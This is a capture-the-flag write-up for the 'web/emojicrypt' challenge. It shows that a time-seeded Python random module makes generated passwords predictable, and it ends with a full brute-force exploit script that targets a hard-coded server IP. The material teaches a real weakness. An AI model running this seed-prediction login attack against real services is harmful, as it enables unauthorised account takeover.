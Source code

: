 
# Writeup for `web/emojicrypt`, Hacking Time and Randomization

## Vulnerability Overview

`web/emojicrypt` Uses `random.choice(NUMBERS)  for  _  in  range(32)` with the default seed. Normally, in python3, the default seed is the current Unix timestamp. (See https://www.unixtimestamp.com/ for more explanation on the Unix Timestamp format.) Because of this, we can simply find out the timestamp by going from 50 seeds before the timestamp to 50 seeds after, allowing us to find out the password.

## Application Architecture

The application consists of:
1. A web frontend that allows users to login and register
2. A random password generator via `random_password  =  ''.join(random.choice(NUMBERS)  for  _  in  range(32))`
3. A simple database accessed by `DATABASE  =  'users.db'` and `cursor.execute("SELECT salt, password_hash FROM users WHERE username = ?",  (username,))` 

## Vulnerability Details

The vulnerability exists in the `register()` function, specifically in line 46:

```python
random_password  =  ''.join(random.choice(NUMBERS)  for  _  in  range(32))
```

Looking at the definition of python's `random.seed()` function, it states that:
` None or no argument seeds from current time or from an operating
        system specific randomness source if available.
`
Which means that since the server is running on Linux, we can assume that the seed is derived from the Unix Time-stamp. which means that we can potentially get the seed just by looking at the time.

## Exploit Chain
To demonstrate this part of the writeup, we will pretend that english is code.
1. First, Register an account:

```
unique_suffix  =  randnum(1000,9999)
Username = "Wehacking" + unique_suffix	
Email  =  "exploit_(unique_suffix)@example.com"
timebeforeregister = gettimebeforeregister
startsession
payload = {'username' : Username, 'email' : Email}
post(payload)
if respcode is 200:
	print its working!!
```
	


2. Do the following:
   - have a variable thats `timebeforegister` + 1 and `timebeforegister` - 50
   - Then loop thru each of these numbers generating an instance of that seed (like `1744021834`,`1744021835`,`1744021836` and so on.
   - Generate a password with each seed
   - Try each password until you get the correct password.

## Root Cause Analysis


1. **Poor Time-Based Attack Mitigation**: The application relies on time-based values (the Unix timestamp) to seed the random generator. This is insecure because an attacker can brute-force possible seeds within a range of Unix timestamps, giving them a manageable set of seeds to test.
2. **Lack of Rate-Limiting or Delays**: The application is vulnerable to brute-force attacks by allowing to repeatedly try passwords within a small window without rate-limiting or delays between attempts. Because of this, the attacker can try a large number of passwords in a short amount of time, reducing the effort needed to guess the correct password.

## Automation Code
```py 
import requests
import random
import time
import sys

# --- Configuration ---
# <<< CHANGE MADE HERE >>>
BASE_URL = "http://52.188.82.43:8060"
# <<< END CHANGE >>> 

REGISTER_URL = f"{BASE_URL}/register"
LOGIN_URL = f"{BASE_URL}/login"


unique_suffix = str(random.randint(1000, 9999)) # Add randomness 
USERNAME = f"exploit_user_{unique_suffix}"
EMAIL = f"exploit_{unique_suffix}@example.com"

# Constants from the Flask app (ensure these match the target server)
EMOJIS = ['🌀', '🌁', '🌂', '🌐', '🌱', '🍀', '🍁', '🍂', '🍄', '🍅', '🎁', '🎒', '🎓', '🎵', '😀', '😁', '😂', '😕', '😶', '😩', '😗']
NUMBERS = '0123456789'
 
# How many seconds around the registration time to check for seeds
SEED_SEARCH_RANGE_SECONDS = 50 # Increased slightly for potential network delay/clock skew

# --- Exploit Logic ---

print(f"Targeting server: {BASE_URL}")
print(f"Attempting to register user: {USERNAME} / {EMAIL}")

# Get time just before registration
start_time = time.time()
registration_timestamp_guess = int(start_time)

try:
    # Use a session to handle cookies if necessary
    session = requests.Session()

    register_payload = {
        'username': USERNAME,
        'email': EMAIL
    }
    # Attempt registration
    reg_response = session.post(REGISTER_URL, data=register_payload, timeout=15) # Increased timeout
    print(f"Registration attempt status: {reg_response.status_code}")

    # Check if registration seemed successful (redirect expected, or 400 if user exists)
    if reg_response.status_code == 200:
        print("Registration successful.")
    elif reg_response.status_code == 400:
        print("Registration failed (status 400) - User likely already exists. Trying to log in anyway.")

    else:
         print(f"Warning: Unexpected registration status code: {reg_response.status_code}")
         print(f"Response text: {reg_response.text}")
         # Continue anyway, maybe it still worked enough

except requests.exceptions.RequestException as e:
    print(f"Error during registration: {e}")
    sys.exit(1)

print(f"Registration attempt finished. Estimated timestamp: {registration_timestamp_guess}")
print(f"Searching seeds from {registration_timestamp_guess - SEED_SEARCH_RANGE_SECONDS} to {registration_timestamp_guess + SEED_SEARCH_RANGE_SECONDS}")

found_flag = False
# Iterate through potential seeds (timestamps around registration time)
for seed_offset in range(-SEED_SEARCH_RANGE_SECONDS, SEED_SEARCH_RANGE_SECONDS + 1):
    current_seed = registration_timestamp_guess + seed_offset
    
    print(f"[*] Trying seed: {current_seed}...")
    

    # Seed the local random generator
    random.seed(current_seed)

    # --- Simulate server's random generation ---
    # 1. Simulate salt generation (advance the PRNG state 12 times)
    _ = random.choices(EMOJIS, k=12)

    # 2. Simulate password generation (next 32 random choices)
    predicted_password = ''.join(random.choice(NUMBERS) for _ in range(32))

    # --- Attempt Login ---
    login_payload = {
        'username': USERNAME,
        'password': predicted_password
    }

    try:
     
        login_response = session.post(LOGIN_URL, data=login_payload, allow_redirects=False, timeout=10)

        if login_response.status_code == 200:
            # Print a newline to clear the "... trying seed" line
            print("\n" + "="*20)
            print(f"[+] SUCCESS! Found correct password with seed: {current_seed}")
            print(f"[+] Used Username: {USERNAME}")
            print(f"[+] Predicted Password: {predicted_password}")
            print(f"[+] Flag/Response:")
            # Try to decode if bytes, otherwise print text
            try:
                print(login_response.content.decode('utf-8'))
            except UnicodeDecodeError:
                print(login_response.content) 
            print("="*20 + "\n")
            found_flag = True
            break 

    except requests.exceptions.Timeout:
       
        print(f"[!] Timeout during login attempt with seed {current_seed}. Trying next...", ' '*20, end='\r')
        sys.stdout.flush()
        # Continue to the next seed
    except requests.exceptions.RequestException as e:
        # Print a newline to clear the "... trying seed" line
        print("\n")
        print(f"[!] Error during login attempt with seed {current_seed}: {e}")
        # Potentially add a small delay before continuing if errors persist
        time.sleep(0.5)
        # Continue to the next seed

# Clear the "Trying seed..." line if loop finishes without success
print(" " * 80, end='\r')

if not found_flag:
    print("\n[-] Exploit failed. Could not find the correct password within the seed range.")
    
```
